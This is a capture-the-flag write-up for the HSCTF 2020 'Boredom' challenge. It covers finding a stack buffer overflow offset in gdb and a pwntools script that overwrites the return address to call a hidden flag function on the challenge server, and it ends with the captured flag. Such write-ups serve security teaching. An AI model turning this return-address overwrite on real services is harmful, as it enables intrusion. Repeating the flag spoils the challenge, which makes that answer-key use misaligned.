 # Boredom

>Keith is bored and stuck at home. Give him some things to do.
>
>Connect at nc pwn.hsctf.com 5002.
>
>Note, if you're having trouble getting it to work remotely:
>
>check your offset, the offset is slightly different on the remote server the addresses are still the same Author: PMP


It's a simple buffer overflow challenge, where the goal is to overwrite the address in memory the code reads when it wants to return from a function, shifting execution to a different function which wasn't originally intended.

There's a function called `flag` inside the binary. Executing that function will read the flag from a file and send it back to us.

The first thing we want to do is find the correct padding.

I used a website I found online to generate a random padding:

```
asdhiuesiorghseugohdfghaduguaeriguioaerauigiuaoergeruigsdfuihsdfigseiurgiouseigdfiuhdbfgawyerya3wr3ruawuegfuywa4yufgayurguadhfgeoiurhuseguisdfuigseruigsuioergudfguiseriugiuergiueruigsoiueuihfhugsduifgdfihgiusduigriuegiseuorguseuirgihufuigiudfuigsduhguiregiuerg
```

Then, I set up a breakpoint in gdb and pasted in the padding.

```
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000401260 <+0>:	push   %rbp
   0x0000000000401261 <+1>:	mov    %rsp,%rbp
   0x0000000000401264 <+4>:	sub    $0xd0,%rsp
   0x000000000040126b <+11>:	mov    $0x0,%eax
   0x0000000000401270 <+16>:	callq  0x401186 <setup>
   0x0000000000401275 <+21>:	lea    0xeae(%rip),%rdi        # 0x40212a
   0x000000000040127c <+28>:	mov    $0x0,%eax
   0x0000000000401281 <+33>:	callq  0x401040 <printf@plt>
   0x0000000000401286 <+38>:	lea    -0xd0(%rbp),%rax
   0x000000000040128d <+45>:	mov    %rax,%rdi
   0x0000000000401290 <+48>:	mov    $0x0,%eax
   0x0000000000401295 <+53>:	callq  0x401060 <gets@plt>
   0x000000000040129a <+58>:	lea    0xea3(%rip),%rdi        # 0x402144
   0x00000000004012a1 <+65>:	callq  0x401030 <puts@plt>
   0x00000000004012a6 <+70>:	mov    $0x0,%eax
   0x00000000004012ab <+75>:	leaveq
   0x00000000004012ac <+76>:	retq   
End of assembler dump.
(gdb) b *main+76
Breakpoint 1 at 0x4012ac
(gdb) r
Starting program: /home/jordan/CTF-writeups/HSCTF2020/boredom/boredom
I'm currently bored out of my mind. Give me sumpfink to do!
Give me something to do: asdhiuesiorghseugohdfghaduguaeriguioaerauigiuaoergeruigsdfuihsdfigseiurgiouseigdfiuhdbfgawyerya3wr3ruawuegfuywa4yufgayurguadhfgeoiurhuseguisdfuigseruigsuioergudfguiseriugiuergiueruigsoiueuihfhugsduifgdfihgiusduigriuegiseuorguseuirgihufuigiudfuigsduhguiregiuerg
Ehhhhh, maybe later.
```

Then, I printed the padding starting from the stack pointer. (which is where we overwrite the return address at)

```
Breakpoint 1, 0x00000000004012ac in main ()
(gdb) x/100s $rsp
0x7fffffffe0d8:	"giseuorguseuirgihufuigiudfuigsduhguiregiuerg"
```

Search for that string in your padding, and then remove it. You now have the correct padding.

Now we need to find the address of the flag function:

```
(gdb) disas flag
Dump of assembler code for function flag:
   0x00000000004011d5 <+0>:	push   %rbp
   0x00000000004011d6 <+1>:	mov    %rsp,%rbp
   0x00000000004011d9 <+4>:	sub    $0x40,%rsp
   0x00000000004011dd <+8>:	lea    0xe60(%rip),%rsi        # 0x402044
   0x00000000004011e4 <+15>:	lea    0xe5b(%rip),%rdi        # 0x402046
   0x00000000004011eb <+22>:	callq  0x401080 <fopen@plt>
   0x00000000004011f0 <+27>:	mov    %rax,-0x8(%rbp)
   0x00000000004011f4 <+31>:	cmpq   $0x0,-0x8(%rbp)
   0x00000000004011f9 <+36>:	jne    0x40121d <flag+72>
   0x00000000004011fb <+38>:	lea    0xe4e(%rip),%rdi        # 0x402050
   0x0000000000401202 <+45>:	callq  0x401030 <puts@plt>
   0x0000000000401207 <+50>:	lea    0xe92(%rip),%rdi        # 0x4020a0
   0x000000000040120e <+57>:	callq  0x401030 <puts@plt>
   0x0000000000401213 <+62>:	mov    $0x1,%edi
   0x0000000000401218 <+67>:	callq  0x401090 <exit@plt>
   0x000000000040121d <+72>:	mov    -0x8(%rbp),%rdx
   0x0000000000401221 <+76>:	lea    -0x40(%rbp),%rax
   0x0000000000401225 <+80>:	mov    $0x32,%esi
   0x000000000040122a <+85>:	mov    %rax,%rdi
   0x000000000040122d <+88>:	callq  0x401050 <fgets@plt>
   0x0000000000401232 <+93>:	lea    -0x40(%rbp),%rax
   0x0000000000401236 <+97>:	mov    %rax,%rsi
   0x0000000000401239 <+100>:	lea    0xea0(%rip),%rdi        # 0x4020e0
   0x0000000000401240 <+107>:	mov    $0x0,%eax
   0x0000000000401245 <+112>:	callq  0x401040 <printf@plt>
   0x000000000040124a <+117>:	lea    0xecc(%rip),%rdi        # 0x40211d
   0x0000000000401251 <+124>:	callq  0x401030 <puts@plt>
   0x0000000000401256 <+129>:	mov    $0x2a,%edi
   0x000000000040125b <+134>:	callq  0x401090 <exit@plt>
End of assembler dump.
(gdb)
```

We now know the address, that is what we write to the stack pointer.

It turns out that the padding is different from the server for some reason, and the executable is different on the server. The padding is not 216 bytes, but actually 208.

It took some guessing to get the real padding, but in the end I was able to solve it.

```python
from pwn import *

if 'rem' in sys.argv:
    r = remote('pwn.hsctf.com', 5002)
else:
    r = process('./boredom')

filler = b"asdhiuesiorghghaduguaeriguioaerauigiuaoergeruigsdfuihsdfigseiurgiouseigdfiuhdbfgawyerya3wr3ruawuegfuywa4yufgayurguadhfgeoiurhuseguisdfuigseruigsuioergudfguiseriugiuergiueruigsoiueuihfhugsduifgdfihgiusduigriue"
print(len(filler))

r.send(filler)
r.send(p64(0x4011d5))
r.send(b'\n')

r.interactive()
```

```
$ py sol.py rem
[+] Opening connection to pwn.hsctf.com on port 5002: Done
208
[*] Switching to interactive mode
I'm currently bored out of my mind. Give me sumpfink to do!
Give me something to do: Ehhhhh, maybe later.
Hey, that's a neat idea. Here's a flag for your trouble: flag{7h3_k3y_l0n3l1n355_57r1k35_0cff9132}

Now go away.
[*] Got EOF while reading in interactive
$  
```

Flag: `flag{7h3_k3y_l0n3l1n355_57r1k35_0cff9132}`
